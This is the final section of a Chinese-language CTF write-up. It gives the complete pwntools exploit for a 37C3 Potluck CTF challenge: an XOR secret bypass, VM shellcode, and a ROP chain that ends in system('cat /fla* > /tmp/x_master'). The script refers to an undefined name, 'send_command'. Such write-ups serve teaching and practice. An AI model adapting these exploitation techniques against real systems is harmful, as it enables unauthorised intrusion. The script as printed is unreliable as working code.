 完整的利用脚本如下所示，它帮助我们在 37C3 Potluck CTF 中获得了 flag 和第一个血腥挑战。

感谢 blasty 带来了这个酷炫的挑战，以及 ZetaTwo 举办的 CTF！

## 九、攻击 Poc 源代码

```plain
from pwn import *

r = remote('challenge27.play.potluckctf.com', 31337)

# Secret challenge
r.recvuntil(b'stew:\n\n')
secret = bytes.fromhex(r.recvline().strip().decode())
code = xor(secret, p32(0xc0cac01a) + p32(0xd15ea5e) + p32(0x5caff01d) + p32(0xba5eba11)).hex().encode()
r.sendline(code)

# Select vulnerable command 2
r.recvuntil(b'choice> ')
r.sendline(b'2')
r.recvline()

# Gadgets
pop_lr_r5_r4_r2_r1_r0 = 0x164
send_command_gadget = 0x5b0
recv_and_print = 0x714
stack_in_kitchen = 0xfdb8
stack_in_gordon = 0xef7c
system_api_chall = 0x4033A2

# Payload
payload = p32(0xc0cac01a) # command magic
# Gordon shellcode
'''
syscall instruction -> handle_syscall(vm) -> system(vm) -> system(&vm->regs[0])
r0/r1/r2 -> "cat /fla* > /tmp/x_master\x00"
'''
payload += b'\x09\x05\x00\x00' # pop r5 -- @system
payload += b'\x07\xd0\x05\x00' # mov R13, R5 -- write to handle_syscall
payload += b'\x09\x00\x00\x00' # pop r0 -- cat /flag...
payload += b'\x09\x01\x00\x00' # pop r1
payload += b'\x09\x02\x00\x00' # pop r2
payload += b'\x09\x03\x00\x00' # pop r3
payload += b'\x05\x07\x00\x00' # syscall 7

assert len(payload) <= 0x40
payload += b'X' * (0x40 - len(payload))
# Kitchen ROP chain
payload += p64(pop_lr_r5_r4_r2_r1_r0)
payload += p64(send_command) # lr
payload += p64(0) # r5
payload += p64(0) # r4
payload += p64(0) # r2
payload += p64(0x100) # r1
payload += p64(stack_in_kitchen) # r0
payload += p64(recv_and_print) # recv + print
payload += b'X' * (0x80 - len(payload))
# Gordon ret2shellcode
payload += p64(stack_in_gordon)
# Gordon shellcode pop
payload += p64(system_api_chall) # @system
payload += b'cat /fla* > /tmp/x_master\x00' # cmd

```